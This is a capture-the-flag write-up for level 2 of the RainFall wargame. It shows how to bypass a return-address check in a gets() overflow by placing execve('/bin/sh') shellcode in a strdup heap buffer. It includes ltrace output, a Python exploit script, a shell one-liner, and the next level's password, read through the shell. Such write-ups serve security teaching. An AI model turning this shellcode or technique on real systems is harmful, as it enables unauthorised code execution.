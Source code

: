 # Level 2

Here we also have a vulnerable `gets()` with a buffer overflow of 76 characters in. The difficulty this time is that we can't just give it a shellcode or use a ret2libc attack as the program will detect any return address starting with `0xb` and exit. We therefore can't directly use a stack address.
```C

    sym.imp.gets(&src);
    ret = __builtin_return_address(0);
    if ((ret & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n", ret);
        exit(1);
    }
```

## Heap exploit

We'll try to inject this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html), getting us a shell via `execve("/bin/sh")`.

Conveniently, strdup is called at the end of the program, allowing us to store our buffer overflow in the heap, well outside the `0xb` range and call it directly. Our exploit will look like this:

`shellcode (28 bytes) | padding (76 bytes + 4 bytes of alignment) | address of this buffer in the heap (little-endian)`

### Finding the address of the buffer 
We now need to find the return address of `strdup()`, to do this we can either use `gdb` and inspect `eax` after the call to strdup, or more easily just use `ltrace`.
```shell
level2@RainFall:~$ ltrace ./level2 <<< "hello world"
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff70c
puts("hello world"hello world
)                                               = 12
strdup("hello world")                                             = 0x0804a008
+++ exited (status 8) +++
```
The return value of `strdup()` is `0x0804a008` here.

### Putting the exploit together
We now have everything to exploit our binary, let's put together our exploit string

```python
import struct

#https://shell-storm.org/shellcode/files/shellcode-811.html
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print (
	shellcode +
	"a" * ((76 + 4) - len(shellcode)) + # 52bytes of padding, after shellcode and for alignment
	struct.pack("<Q", 0x804a008) # The address of our shellcode in the heap
)
```

Now let's give this to program and keep a shell open with `cat`
```shell
level2@RainFall:~$ (python -c 'import struct; print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "a"*52 + struct.pack("<Q", 0x804a008)'; cat )| ./level2
1Ph//shh/bin°
             ̀1@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
🥳

## Other solutions
Using a rop gadget could also help us bypass the check and run a ret2libc attack or shellcode
